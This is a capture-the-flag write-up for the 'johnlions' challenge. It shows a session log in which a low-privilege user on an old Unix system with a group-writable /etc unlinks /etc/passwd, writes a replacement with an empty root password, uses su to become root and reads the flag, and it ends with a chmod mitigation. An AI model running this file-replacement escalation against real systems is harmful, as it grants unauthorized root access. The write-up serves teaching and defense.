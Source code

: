 ## johnlions ##
Writeup by @cyphar.

### tl;dr ###
The directory `/etc` had the mode `775`, meaning you could delete and replace
(or overwrite using `/bin/mv`) files used for authentication (such as
`/etc/passwd` and `/etc/shadow`) and thus escalate to root priviliges.

### Session ###
The following is the logs from a session where the above exploit was used to
read the target file (`/flag`).

```console
$ cat /etc/passwd
root:x:0:1::/:
[...snip...]
ctf::7:3::/:
$ unlink /etc/passwd
$ cat - > /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ cat /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ su
# cat /flag
9447{h4cking_like_its_1979}
#
```

### What just happened? ###
Here's a breakdown of the above key commands:

#### `rm /etc/passwd` ####

This command unlinks the file `/etc/passwd`, which is allowed because the `ctf`
user has `rwx` permissions for `/etc`. This is the first part of the exploit.
Even though the `ctf` user doesn't have `rwx` permissions for `/etc/passwd`,
`ctf` can still unlink the file because of how UNIX permissions work.

#### `cat - > /etc/passwd` ####

Because `ctf` has `rwx` permissions for `/etc`, `ctf` can create a new file
within `/etc`. This is the second part of the exploit. The net result is that
cyphar could create a new authentication file allowing him to get root.

#### `su` ####

Since we have overwritten `/etc/passwd`, you can log in as `root` with no
password (NOTE: the change of the prompt from `$` to `#` indicates that the
escalation to root was successful).

#### `cat /flag` ####

This just discloses the information inside the target file, revealing the flag
and completing the challenge.

### Notes ###

* Both cyphar and auscompgeek really hate `telnet` (no line editing and
  backspace doesn't work -- grrr)
* cyphar now appreciates just how much GNU has provided in terms of
  user-friendly tools and features.
* It was also possible to exploit `/usr/lib/atrun`, as
  [another team did](http://pastebin.com/raw.php?i=8jaPWTVT).

### Mitigation ###

`chmod 755 /etc`
